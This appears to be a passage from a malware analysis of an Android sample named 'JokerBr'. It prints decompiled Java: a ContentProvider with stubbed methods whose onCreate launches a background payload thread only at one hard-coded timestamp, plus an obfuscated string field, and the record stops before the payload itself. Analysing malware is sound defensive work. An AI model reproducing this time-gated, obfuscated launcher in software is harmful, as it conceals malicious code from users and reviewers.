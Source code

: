 ```java
public class JokerBr extends ContentProvider {
    @Override // android.content.ContentProvider
    public final int delete(Uri uri, String str, String[] strArr) {
        return 0;
    }

    @Override // android.content.ContentProvider
    public final String getType(Uri uri) {
        return null;
    }

    @Override // android.content.ContentProvider
    public final Uri insert(Uri uri, ContentValues contentValues) {
        return null;
    }

    @Override // android.content.ContentProvider
    public final boolean onCreate() {
        if (System.currentTimeMillis() / 1000 != 1732145681) {
            return false;
        }
        Context context = getContext();
        String str = a.f40a;
        Executors.newSingleThreadExecutor().execute(new a.RunnableC0000a(context));
        return false;
    }

    @Override // android.content.ContentProvider
    public final Cursor query(Uri uri, String[] strArr, String str, String[] strArr2, String str2) {
        return null;
    }

    @Override // android.content.ContentProvider
    public final int update(Uri uri, ContentValues contentValues, String str, String[] strArr) {
        return 0;
    }
}
```

As we can see, all the essential functions (delete, insert, Cursor query and update) are null. In addition to this, the `onCreate` function checks if a specific condition is met and it creates a new thread executing `RunnableC0000a(Context)` from class `a` of package `a2`.

```java
public final class a {

    public static String f40a = c.a.o(new StringBuffer("Z3qSpRpRxWs"), new StringBuffer("3\\^>_>_>W"));

    public static class RunnableC0000a implements Runnable {

        public final Context f41b;

        public RunnableC0000a(Context context) {
            this.f41b = context;
        }

        @Override 
        public final void run() {
            try {
                a.b(this.f41b);
            } catch (Exception unused) {
            }
```